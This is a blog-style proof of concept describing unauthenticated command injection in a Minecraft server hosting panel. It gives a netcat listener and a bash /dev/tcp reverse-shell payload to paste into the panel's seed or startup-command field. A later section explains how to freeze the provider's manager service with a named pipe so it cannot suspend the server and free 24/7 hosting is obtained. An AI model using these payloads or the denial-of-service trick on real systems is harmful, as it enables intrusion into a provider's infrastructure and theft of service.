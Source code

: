 ```yaml
---
date: 2025-02-07
title: Stupidest RCE I have encounter.
author: furrygang
desc: 'This is probably the stupidest RCE I have encounter.'
tags:
  - poc
  - rce
---
```


# PoC: RCE From Frontend.

Hello, Recently I have been doing some research with my friend [(OddByte)](https://oddbyte.dev/)

And we have discover an RCE within the panel itself. Leading to us getting shell access directly from the panel.

But due to how they run their containers, We weren't able to get root access.

#### 1. How does it work?

How they run their CTs are a bit weird...

```
Host > VM > CT
```

But, I will be talking about the VM today.

The VM runs something called `minecraft-manager`.

Which basically control everything on your server.

Every POST/GET Request to your server is managed with `minecraft-manager`.

`minecraft-manager` is hosted on the VM itself. 

So If we find a way to crash `minecraft-manager` they wouldn't be able to suspended our server from their admin panel.

The only way the server can be deleted is from them manually `rm -rf`ing it.

#### 2. Actually RCEing the panel.

Let's get to the main point of this blog. RCEing the panel.

This is how it works.

Every server has it's own manager subdomain in a form of

```
[serverID].manager.minehut.com
```
Here is an Example:

![Img](https://i.imgur.com/2juofzG.png)

Now, They have a path to get your startup flags.
```
/v1/game/start_cmd
```

Like this:

![Img](https://i.imgur.com/v0Leg1j.png)

This is so fucking retarded because you can legit just RCE it with
```
$(bash -c 'command here')
```
Also, This does not require any authentications what so ever.

But how do you modified start_cmd?

You can directly modified start_cmd from their panel.

I will be using Seed as an example

Firstly, I will start a netcat server on port 25565 with command
```
nc -lvnp 25565
```

![Img](https://i.imgur.com/4sVVh0z.png)

Then I will go to the panel. And input
```
$(bash -c 'sh -i >& /dev/tcp/IP Address/PORT 0>&1')
```

As the seed, (You can put it on anything. Not limited to seed.)

After that, restart your server and you should be in sh!

![Img](https://i.imgur.com/OOCAxcK.png)

![Img](https://i.imgur.com/MP1TSOl.png)

![Img](https://i.imgur.com/Use07Jz.png)

As you can see, We just did the stupidest RCE ever made.

#### Warning

Doing this can get your server and your account suspended.

Do it as your own risk.

![Img](https://i.imgur.com/Hy0Cv6p.png)

#### 3. Getting 24/7 on free server.

Before doing this. I recommend you having a shell plugin and luckperms with * permission on default group.

This will make your account completely bricked.

After you have shell access. You can make an fifo with
```
mkfifo whatevername
```

After you made a new fifo file.

Open it in the file manager. And minecraft-manager will start freezing.

After a few hours, The API to your server will be timed out.

The panel will stop working and showing no results.

And when you visit
```
api.minehut.com/server/Servername?byName=true
```

It will be timed out

![Img](https://i.imgur.com/OK8T1np.png)

Like this image here. And boom, you have successfully bricked minecraft-manager.

And now you have 24/7 for free!

![Img](https://i.imgur.com/UUGabEK.png)
